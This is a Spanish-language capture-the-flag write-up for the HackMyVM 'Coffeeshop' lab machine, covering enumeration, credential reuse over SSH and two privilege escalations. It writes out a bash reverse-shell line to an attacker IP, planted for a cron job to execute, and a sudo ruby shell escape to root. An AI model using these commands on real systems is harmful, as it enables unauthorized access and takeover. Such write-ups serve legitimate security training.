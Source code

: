 ```yaml
---
layout: post
title: Coffeeshop - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: MrMidnight  
**Dificultad**: Fácil

![img](../imgs/write-ups/hackmyvm/coffeeshop/coffee.png)

## Reconocimiento

Inicio la enumeración utilizando la herramienta **nmap** para descubrir los puertos abiertos en la máquina víctima. En este caso, se realiza un análisis simple que verifica todos los puertos TCP.

```
h3rshel@kali:~/Desktop$ sudo nmap 192.168.1.129 -p-   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-22 11:12 CET
Nmap scan report for 192.168.1.129
Host is up (0.00011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Como se puede observar, los puertos 22 (SSH) y 80 (HTTP) están abiertos.

### Puerto 80

En la imagen siguiente, observamos la página web principal alojada en el servidor HTTP. Como se aprecia, la página se encuentra en construcción y además nos proporciona un nombre de dominio.

![img](../imgs/write-ups/hackmyvm/coffeeshop/coffee_1.png)

Agrego el nombre de dominio al archivo /etc/hosts para asociarlo con la dirección IP de la máquina. Posteriormente, empleo la herramienta **ffuf** para llevar a cabo un ataque de fuerza bruta en la búsqueda de subdominios.

```
h3rshel@kali:~/Desktop$ ffuf -u http://midnight.coffee -H "Host: FUZZ.midnight.coffee" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 1690

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://midnight.coffee
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.midnight.coffee
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1690
________________________________________________

dev                     [Status: 200, Size: 1738, Words: 575, Lines: 72, Duration: 77ms]
```

Existe el subdominio **dev**. Ahora, lo agrego al archivo /etc/hosts y procedo a navegar para examinar su contenido.

![img](../imgs/write-ups/hackmyvm/coffeeshop/coffee_2.png)

Hemos obtenido credenciales.

Regresando al dominio principal, empleo **gobuster** para buscar archivos y subdirectorios en el servidor.

```
h3rshel@kali:~/Desktop$ gobuster dir -u "http://midnight.coffee/" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x html,php,txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://midnight.coffee/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 1690]
/.html                (Status: 403) [Size: 280]
/shop                 (Status: 301) [Size: 317] [--> http://midnight.coffee/shop/]
```

Dentro del subdirectorio **/shop**, se observa una pestaña de **Login**. Utilizaremos las credenciales obtenidas anteriormente en el subdominio para acceder.

![img](../imgs/write-ups/hackmyvm/coffeeshop/coffee_3.png)

Después de iniciar sesión, obtenemos nuevas credenciales, las cuales emplearemos para acceder a la máquina víctima mediante SSH.

![img](../imgs/write-ups/hackmyvm/coffeeshop/coffee_4.png)

Hemos iniciado sesión con éxito y ahora procedemos con la escalada de privilegios.

```
h3rshel@kali:~/Desktop$ ssh tuna@midnight.coffee
tuna@midnight.coffee's password: 
[...]
tuna@coffee-shop:~$ :)
```

## Escalado de privilegios

Dentro de la máquina víctima, descargamos **pspy64** para visualizar tareas cron que se ejecuten periódicamente.

```
[...]
2024/01/22 10:39:08 CMD: UID=0     PID=3      | 
2024/01/22 10:39:08 CMD: UID=0     PID=2      | 
2024/01/22 10:39:08 CMD: UID=0     PID=1      | /sbin/init 
2024/01/22 10:40:01 CMD: UID=0     PID=1898   | /usr/sbin/CRON -f -P 
2024/01/22 10:40:01 CMD: UID=0     PID=1901   | /usr/sbin/CRON -f -P 
2024/01/22 10:40:01 CMD: UID=1001  PID=1902   | /bin/bash /home/shopadmin/execute.sh 
2024/01/22 10:40:01 CMD: UID=1001  PID=1903   | /bin/bash /home/shopadmin/execute.sh 
[...]
```

pspy64 revela la ejecución de un script en /home/shopadmin a través de una tarea cron asociada al usuario shopadmin. Este descubrimiento destaca una posible vía para la escalada de privilegios.

Aunque no se puede cambiar directamente al directorio home de shopadmin, podemos leer el archivo directamente utilizando el comando cat para visualizar su contenido.

```
tuna@coffee-shop:~$ cat /home/shopadmin/execute.sh
#!/bin/bash

/bin/bash /tmp/*.sh
```

Este script ejecuta todos los archivos con extensión .sh dentro del directorio /tmp. Este comportamiento podría presentar una oportunidad para la escalada de privilegios, ya que podríamos manipular la ejecución de scripts en ese directorio para obtener mayores privilegios en el sistema.

```
tuna@coffee-shop:/tmp$ cat shell.sh 
bash -i >& /dev/tcp/192.168.1.118/1234 0>&1
```

En el directorio **/tmp**, he creado un script llamado **shell.sh** que ejecuta un reverse shell hacia tu máquina Kali. Esto permitirá obtener acceso como el usuario que ejecute dicho script, abriendo así la posibilidad de realizar acciones con los privilegios asociados a ese usuario en la máquina víctima.

```
h3rshel@kali:~$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.118] from (UNKNOWN) [192.168.1.129] 50130
bash: cannot set terminal process group (1937): Inappropriate ioctl for device
bash: no job control in this shell
shopadmin@coffee-shop:~$ 
```

Bingo!! Ahora tengo acceso como el usuario **shopadmin**.

### Root

Al ejecutar el comando sudo -l comprobamos que tenemos permisos para ejecutar un comando como el usuario root.

```
shopadmin@coffee-shop:~$ sudo -l
Matching Defaults entries for shopadmin on coffee-shop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User shopadmin may run the following commands on coffee-shop:
    (root) NOPASSWD: /usr/bin/ruby * /opt/shop.rb
```

En [GTFO bins](https://gtfobins.github.io/gtfobins/ruby/#shell) veremos que el comando **ruby** nos permite obtener una shell de la siguiente manera.

```
shopadmin@coffee-shop:~$ sudo /usr/bin/ruby -e 'exec "/bin/sh"' /opt/shop.rb
$ script -qc /bin/bash /dev/null
root@coffee-shop:/home/shopadmin# id
uid=0(root) gid=0(root) groups=0(root)
root@coffee-shop:/home/shopadmin# :)
```

Y de esta forma la máquina ya estaría resuelta.

Muchas gracias a **MrMidnight** por esta máquina.
